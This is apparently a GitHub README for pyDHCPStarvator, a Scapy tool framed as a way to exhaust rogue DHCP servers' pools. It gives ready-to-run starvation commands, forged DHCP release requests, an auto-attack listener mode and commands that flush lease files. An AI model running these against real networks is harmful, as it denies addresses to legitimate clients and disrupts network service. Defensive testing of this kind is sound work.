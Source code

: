 # pyDHCPStarvator

This is a Scapy python program that can run out an entire DHCP pool.
This tool was not created for doing network attacks but like a strategy to exaust a DHCP Rogue pool when security-port and dhcp-snoop features are not available in your network equipments.

### Requirements
````
apt install python3-dev python3-pip
pip3 install scapy-python3
pip3 install netaddr
````
It was migrated from python2 to python3, hopefully the right thing!

### Usage
````
usage: starvit.py [-h] -i I -net NET [-start N] [-end N] [-rep N]
                  [-server_id SERVER_ID] [-random_hostnames]
                  [-dst_mac DST_MAC] [-timeout TIMEOUT] [-debug]

optional arguments:
  -h, --help            show this help message and exit
  -i I                  local network interface
  -net NET              /24 subnet, example: -subnet 192.168.27.0/24
  -start N              start ip to request
  -end N                how many request will be done
  -rep N                repetition, sometime packet get lost. Default: 3
                        requests per ip
  -server_id SERVER_ID  DHCP server id, example: 192.168.27.254
  -random_hostnames     random client hostnames, othrewise client's hostname
                        will be: ?
  -dst_mac DST_MAC      Destination DHCP MAC address, default:
                        ff:ff:ff:ff:ff:ff
  -timeout TIMEOUT      seconds to wait between a request and another. example
                        -timeout 0.2
  -debug                print packets
````

##### usage examples
````
# starvation on entire network class
sudo python3 starvit.py -i eth2  -net 192.168.0.0/16  -dst_mac 08:00:27:7c:f9:41 -t 0.05

# starvation on selected ip range
sudo python3 starvit.py -i eth2  -net 192.168.1.0/24 -start 92 -end 100 -dst_mac 08:00:27:7c:f9:41

# just add a server_id as a specific target
sudo python3 starvit.py -net 192.168.1.0/24 -start 10 -end 253 -server_id 192.168.27.254

# specify server by its MAC address and print packets to stdout
sudo python3 starvit.py -net 192.168.1.0/24 -start 80 -end 100 -dst_mac 08:00:27:7C:F9:41 -debug


````

#### example stdout with -debug option
````
Requesting: 192.168.1.98
<Ether  dst=08:00:27:7C:F9:41 src=7b:7b:d1:5a:6b:62 type=IPv4 |<IP  frag=0 proto=udp src=0.0.0.0 dst=255.255.255.255 |<UDP  sport=bootpc dport=bootps |<BOOTP  chaddr=<RandMAC> options='c\x82Sc' |<DHCP  options=[message-type='request' requested_addr=192.168.1.98 end] |>>>>>
.
Sent 1 packets.
````

#### -server_id and -dst_mac
These options focus the attack on a specified endpoint, the DHCP server, by ip or mac address.

If you using a wrong server_id value all the DHCP servers in the l2 broadcast will get something similar in their logs and will not release any ip from their pool.
````
Wed May 16 17:31:35 2018 daemon.info dnsmasq-dhcp[31796]: DHCPNAK(br-lan) 192.168.27.135 30:63:3a:33:38:3a wrong server-ID
````

### Request an IP release
Usefull if you want to force a DHCP server to remove a DHCP lease and then make a client to request an ip again
````
python release_ip.py -src_mac 66:36:3a:37:31:3a -src_ip 192.168.1.93 -dst_mac 08:00:27:7C:F9:41 -dst_ip 192.168.1.1 -debug 1

````

### Send a DHCP discover and listen for event
A listener could also be executed to run a function callback for every packet sniffed.
For example we could send a gratuitous DHCP DISCOVER and listen for DHCP OFFER from rogue DHCP servers.

````
# DHCP DISCOVER
python2 dhcp_discover.py -i eth2

# DHCP event listener
python listener.py -i eth2 [-debug]

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
````

listener.py can also be runned in starvation attack mode (subprocess).
If a DHCP-OFFER has been sniffed it will automatically starvate that DHCP.
It can also whitelists one or more DHCP and attack only the ROGUE DHCP.


In this example 10.21.0.254 is whitelisted, attack will only run 
against 192.168.1.1.
````
python3 listener.py -i eth2 -starvation-attack -starvation-exclude d4:ca:6d:e6:6a:d7

Start DHCP listener on interface 'eth2' with filter 'port 68 and port 67'
DHCP OFFER from: 10.21.0.254 [d4:ca:6d:e6:6a:d7]
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
DHCP OFFER from: 192.168.1.1 [08:00:27:7c:f9:41]
starting starvation on 08:00:27:7c:f9:41, 192.168.1.1/24
** python3 starvit.py -i eth2 -net 192.168.1.1/24 -dst_mac 08:00:27:7c:f9:41
````

To solicitate DHCP-OFFER we craft DHCP-REQUEST packets
````
python2 dhcp_discover.py -i eth2

#or
nmap --script broadcast-dhcp-discover -e eth0
````


### Results
![example](images/example.png)
An OpenWRT DHCP server used as victim.
Some fake client requests was forged with "-random_hostnames" option, some other not.

![discover](images/discover2.png)
Server side effects of DHCP Discovery, dhcp_discover.py will always use a fake mac address to run its inspections.

### Hints
````
# tcpdump activity sniffing
tcpdump -i $ifname -n 'port 67 and port 68'

# dhcp discover
nmap --script broadcast-dhcp-discover -e eth0
````
````
# dhcp leases flush
# openwrt
echo "" >  /tmp/dhcp.leases

# debian
echo "" >  /var/lib/dhcp3/dhcp.leases

````

### License

DHCPStarvator is made by Giuseppe De Marco and it's released under the GPL 3 license.

### Todo

- configurable MAC randomization (arguments);



- please open an issue and suggest :)

### Resources

- http://scapy.readthedocs.io/en/latest/#sniffing
- https://phaethon.github.io/scapy/api/
- https://blog.jasonantman.com/2010/04/dhcp-debugging-and-handy-tcpdump-filters/
- https://www.whitewinterwolf.com/posts/2017/10/30/dhcp-exploitation-guide/
- https://github.com/foreni-packages/dhcpig

### Special thanks
To [Daniele Albrizio](https://github.com/speedj) for given a name to an idea ;)
